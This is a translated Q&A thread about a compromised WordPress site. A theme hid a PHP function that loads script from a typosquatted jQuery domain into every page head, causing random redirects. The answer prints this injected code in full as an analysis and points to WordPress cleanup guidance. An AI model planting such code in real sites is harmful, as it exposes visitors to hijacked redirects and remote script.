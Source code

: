 我到处检查过，但都没有成功。

任何帮助将不胜感激。

谢谢你。

**对于那些投票给我的人，我已经做了很多研究，试图在过去的 4 个小时里自己解决这个问题，我的腿上有一个 11 个月大的孩子。我只是在万不得已的情况下才发布这个问题，因为我自己没有成功地做到这一点。由于过去我从这里的人那里得到了很大的帮助，所以我认为问一下也无妨。

* * *

## 回答 #1

> 赞同：8
> 
> 时间：2012-08-02T22:10:41.157

*写下所有评论作为答案，因为这里有很好的信息来对抗漏洞利用。*

* * *

## 问题

在 Wordpress 驱动的站点的源代码中发现了一个带有冒充 jQuery CDN 的 URL 的脚本。听起来 jquerys.com 和 jqueryc.com 都被用作冒名顶替的域。

恶意代码很简单；它随机重定向到另一个站点并设置一个 cookie 以防止立即重定向（每天一次）。由于它不常见，因此在开发站点时可能永远不会看到它，或者忽略它。

## 可能的原因

*   输入网址错误
*   受损的服务器
*   恶意主题
*   一个恶意插件

## 解析度

开始：[http ://codex.wordpress.org/FAQ_My_site_was_hacked](http://codex.wordpress.org/FAQ_My_site_was_hacked)

OP 在主题中找到了这段代码：

```
// !!! Suspect Code - Do not use for any purpose !!!

//Jquery Function 
if (!function_exists('insert_jquery_theme')){
    function insert_jquery_theme(){
        if (function_exists('curl_init')){
        $url="jqueryc.com/jquery-1.6.3.min.js";
        $ch = curl_init();
        $timeout = 5;
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, $timeout);
        $data = curl_exec($ch);
        curl_close($ch);
        echo $data;
     }
  }

  add_action('wp_head', 'insert_jquery_theme');
} 
```
